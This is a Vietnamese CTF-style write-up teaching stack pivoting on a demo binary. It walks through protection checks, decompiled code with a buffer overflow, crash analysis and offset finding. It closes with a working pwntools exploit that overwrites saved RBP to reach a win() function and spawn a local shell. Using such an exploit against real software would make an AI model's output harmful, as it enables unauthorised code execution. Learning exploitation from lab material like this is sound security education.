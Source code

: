 # stackpivot_chall_demo_file

***Mục đích chính của kỹ thuật này là chuyển hướng luồng thực thi của chương trình bằng cách thay đổi con trỏ stack (RSP/ESP) sang một vùng nhớ mới mà chúng ta kiểm soát, từ đó thực thi các đoạn mã (thường là ROP chain) đã được đặt sẵn ở vùng nhớ đó.***

### Tại sao cần Stack Pivot?
1. **Không đủ không gian trên stack hiện tại**: Khi buffer quá nhỏ, không đủ để chứa toàn bộ ROP chain.
2. **Kiểm soát vùng nhớ mới**: Chúng ta có thể ghi dữ liệu lên các vùng nhớ khác (như heap, .bss) và muốn thực thi ROP chain từ đó.
3. **Bypass một số cơ chế bảo vệ**: Như ASLR, NX, Stack Canary (bằng cách tránh việc ghi đè lên stack ban đầu).

# File demo (`chall5`)
## Kiểm tra cơ chế bảo vệ
```bash
checksec chall5
```
```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* No canary vì thế chúng ta có thể ghi đè return address
* No PIE : địa chỉ không bị random hóa

## Kiểm tra mã giả với IDA64
```bash
ida64 chall5
```
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  init(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != 49 )
          break;
        buy();
      }
      if ( buf[0] != 50 )
        break;
      sell();
    }
    if ( buf[0] == 51 )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```
* Có thể thấy chương trình mô phỏng một menu với các lựa chọn `Buy`, `Sell`, `Exit`.
* Phát hiện hàm win được gán vào một con trỏ có địa chỉ `404850`, hàm này có thể tạo shell:
```
int win()
{
  return system("/bin/sh");
}
```
* Kiểm tra hàm `Buy`:
```
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 0x28uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == 10 )
  {
    result = v2 - 1;
    buf[result] = 0;
  }
  return result;
}
```
- Tại đây chương trình khai báo biến `buf` chứa được 28 byte nhưng đọc vào 0x28 hexabyte (40 byte) vì vậy xảy ra buffer overflow.
## Khai thác
### Kiểm tra giá trị thanh ghi khi chương trình crash
* Thử nhập vào hàm `Buy` 40 byte, chương trình gặp lỗi `SIGBUS`:
```
Program received signal SIGBUS, Bus error.
```
* Nhận thấy giá trị RBP bị thay đổi nhưng RIP thì không, Nên luồng chương trình vẫn trờ về hàm main để tiếp tục. Tuy nhiên RBP được lấy ra là một địa chỉ không hợp lệ do đã bị ghi đè nên chương trình bị lỗi.
```
RBP  0x6161616161616165 ('eaaaaaaa')
RIP  0x401311 (main+123) ◂— movzx eax, byte ptr [rbp - 2]
```
* Do địa chỉ binary tĩnh nên ta nghĩ đến việc thay đổi RBP thành một giá trị hợp lệ 
```
vmmap
```
* Ta thấy từ địa chỉ 0x404000 tới 0x405000 có quyền rw, do là rbp -2 nên ta chọn sao cho khi thực thi không bị nhảy tới vùng nhớ trước nó.
```
0x404000           0x405000 rw-p     1000    3000 chall5
```
```bash
x/50xg 0x404000
```
* Chọn `0x404900`
### Tính offset
```bash
cyclic -l 0x6161616161616165
```
```
Found at offset 32
```
## SCRIPT
* Đặt input, debug động để xem giá trị RBP
```python
input()
p.sendlineafter(b'> ', b'1')
payload = b'A' * 32
payload += p64(0x404900)
```
* Giá trị RBP đã bị thay đổi
```
RBP  0x404900
```
* Đặt breakpoint tại lệnh read trong hàm `Buy` xem dữ liệu bị thay đổi.
```
rbp         0x7ffce1907cf0 —▸ 0x7ffce1907d10
```
* Ta thấy lúc này overwrite được rbp của hàm main, sau khi về hàm `main` thì rbp nhận giá trị mà ta đã overwrite.
* Địa chỉ hàm main chương trình đã cung cấp tại `0x404850`
* Vậy ta có script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./chall5", checksec = False)

p = process(exe.path)

p.sendlineafter(b'> ', b'1')
payload = b'A' * 32
payload += p64(0x404848)

p.sendafter(b'> ', payload)
p.sendafter(b'> ', b'3')
p.interactive()
```

* Ở đây có thể thấy địa chỉ win() là 0x404850 mà tại sao lại nhập là 0x404848? –> Lý do là leave ; ret tương ứng với mov rsp, rbp ; pop rbp. Vì vậy ta phải nhảy vào 0x404848 (0x404850 -8) và sau khi ret sẽ là 0x404850. Và pop nó xảy ra alignment, nên phải nhảy vào địa chỉ ở trước win() chứ không phải vào win() luôn.
### Chạy thử
```bash
./solve5.py
```
```
[+] Starting local process '/mnt/c/Users/ASUS/Downloads/chall5': pid 111322
[*] Switching to interactive mode
Thanks for coming!
$ ls
chall5   Flag.txt
```
```
$ cat Flag.txt
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}$
```



